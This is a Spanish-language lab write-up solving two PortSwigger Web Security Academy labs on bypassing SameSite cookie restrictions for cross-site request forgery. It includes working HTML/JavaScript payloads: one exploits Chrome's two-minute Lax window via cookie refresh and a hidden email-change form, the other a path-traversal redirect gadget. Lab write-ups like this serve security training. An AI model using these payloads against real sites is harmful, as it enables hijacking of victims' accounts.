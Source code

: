 ### Solución al laboratorio con refresco de cookie

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh).

Si un sitio web no incluye un atributo SameSite al configurar una cookie, Chrome aplica automáticamente restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques entre sitios.

Para eludir la restricción de la cookie con samesite lax nos aprovechamos de que los primeros 120 segundos se permiten peticiones POST.

Para evitar el bloqueo por defecto del navegador del popup al ejecutar windows.open utilizamos la funcion window.onclick.

A los 5 segundos de refrescar la sesión con window.open desde la url indicada se lanzara la petición post con el cambio de usuario.

```jsx
<form method="POST" action="https://URL-VULNERABLE/my-account/change-email">
    <input type="hidden" name="email" value="antu97@test.com">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://URL-VULNERABLE/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

## Strict bypass

Laboratorio [aquí.](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Se puede eludir esta cookie si existe un gadget en la web que genere una solicitud secundaria en el mismo sitio.

En este caso al realizar un post se hace un redireccionamiento del momento en que se envía el post al blog con un parámetro postid, este parámetro permite inyectar valores al directorio por lo que pasando el directorio vulnerable del change email con valores de correo y submit se puede realizar el ataque, es posible ya que la petición también se puede realizar con GET

```jsx
<script>
 document.location = "https://URL-VULNERABLE/post/comment/confirmation?postId=../my-account/change-email?email=antu%40web-security-academy.net%26submit=1";
</script>
```
